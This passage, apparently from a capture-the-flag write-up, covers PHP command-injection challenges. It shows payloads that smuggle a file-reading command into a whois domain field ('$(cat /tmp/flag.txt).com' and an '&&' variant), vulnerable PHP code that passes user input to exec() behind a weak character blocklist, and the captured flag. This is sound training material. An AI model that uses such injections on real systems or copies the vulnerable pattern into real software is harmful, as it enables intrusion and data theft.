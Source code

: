 ```google.com %26%26 cat /tmp/flag.txt```
        $safe = false;
        break;
    }else{
        $safe = true;
    }
}

if ($safe){
    exec($command,$output);
    foreach ($output as $line) {
        echo $line;
        echo '</br>';
    }
}
?>
```
##Challenge 3
Challenge 3 does not allow for the following characters: “;”,\n,”|","&". This leaves “$”, “(“ and, “)”. Using the service as intended shows you that the whois command is in use. This means that the input has to look like a valid domain. Here is an example of an input that would work to print /tmp/flag.txt:

```$(cat /tmp/flag.txt).com```

Note the “.com” at the end. Without the .com, whois command does not properly work. Whois displays the output in all caps and during the CTF the flag value was case insensitive (this is a RCE challenge not a can-you-get-the-proper-case-for-the-flag challenge). 

flag{IfYourParachuteDoesntDeployYouHaveTheRestOfYourLifeToFixIt}

###Code

```php
<?php
$userInput = $_GET["domain"];
$sanitizers = [";",PHP_EOL,"|","&"];
$command = "whois " . $userInput;
$safe = false;
foreach($sanitizers as $sanatizer){
    if(strstr(strtolower($userInput), strtolower($sanatizer))!='') {
        echo "Yo! Don't hack me.... please";
        $safe = false;
        break;
    }else{
        $safe = true;
    }
}

if ($safe){
    exec($command,$output);
    foreach ($output as $line) {
        echo $line;
        echo '</br>';
    }
}
?>
```
